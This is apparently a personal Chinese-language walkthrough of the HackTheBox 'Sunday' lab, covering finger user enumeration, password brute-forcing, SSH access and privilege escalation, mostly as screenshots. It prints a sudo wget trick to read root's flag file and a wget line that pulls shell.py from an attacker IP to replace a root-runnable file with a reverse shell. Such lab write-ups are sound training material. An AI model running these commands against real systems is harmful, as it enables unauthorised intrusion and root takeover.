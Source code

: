 ```yaml
---
UID: 20250615220640
aliases: 
tags:
  - 打靶
  - 靶场
  - hackthebox
source: 
cssclasses: 
created: 2025-06-15
---
```

[[htb sunday 思]]
## 扫描端口
![image.png](https://s2.loli.net/2025/06/19/noYeaqSxQ2c3bHk.png)

### 详细版
![image.png](https://s2.loli.net/2025/06/19/6BjF9EciKayS1Ye.png)

![image.png](https://s2.loli.net/2025/06/19/aMUuvNsAw5rcke9.png)


发现是有个 finger 和 http 还有 ssh 服务。问题来了，http 服务约等于没有，无法访问。只能看看 finger 有什么可以利用的吗

## finger 信息收集
搜了一下资料，发现是这么用的
![image.png](https://s2.loli.net/2025/06/19/7aGWS61tfkogBMw.png)


看了 wp，找了一个网上枚举 finger 用户名的脚本
```
./finger-user-enum.pl -U /root/seclists/Usernames/Names/names.txt -t 10.10.10.76
```

![image.png](https://s2.loli.net/2025/06/19/15Wl8UmyoNxtfLZ.png)

枚举出很多用户，用这几个用户进行爆破密码

![image.png](https://s2.loli.net/2025/06/19/BLvTqyCicuR5JHg.png)

ssh 登录一下
![image.png](https://s2.loli.net/2025/06/19/v19usSjOMFk8YIf.png)

## 提权
![image.png](https://s2.loli.net/2025/06/19/iLzPcg7hHAV5IMw.png)

发现有个 troll 可以进行不用密码使用 root 权限

先信息收集一下
![image.png](https://s2.loli.net/2025/06/19/cDsKTZPfX1HUymh.png)


用 linpeas 并没有找到啥东西

碰碰运气 搜搜 backup 文件

![image.png](https://s2.loli.net/2025/06/19/VrwuotHD4fY2mkR.png)

进去看看
![image.png](https://s2.loli.net/2025/06/19/S5EXIvHNuxlyjbz.png)

破解一下 sammy 的密码
![image.png](https://s2.loli.net/2025/06/19/cS3AIv4pFjYNXKW.png)

![image.png](https://s2.loli.net/2025/06/19/LEBrfAleXP6TZhO.png)

![image.png](https://s2.loli.net/2025/06/19/sHGqehImrD8fbav.png)

找到密码

## 切换用户继续
![image.png](https://s2.loli.net/2025/06/19/jedxMyg8JZNDO1h.png)

```
sudo wget --input-file /root/root.txt
```
用这个命令即可得到 flag
![image.png](https://s2.loli.net/2025/06/19/48IOhKas17bGeYF.png)


## 提权！
不仅仅是要 flag，我们目的是 root 权限

在 summy 用户中发现了有个不用密码就能使用 root 权限的文件
![image.png](https://s2.loli.net/2025/06/19/6tZozKAv8ylEV1f.png)

```
wget http://10.10.16.12:8001/shell.py -O /root/troll
```

![image.png](https://s2.loli.net/2025/06/19/TPF2UfRbOVxE9Gk.png)

写入一个反弹 shell 来代替/root/troll

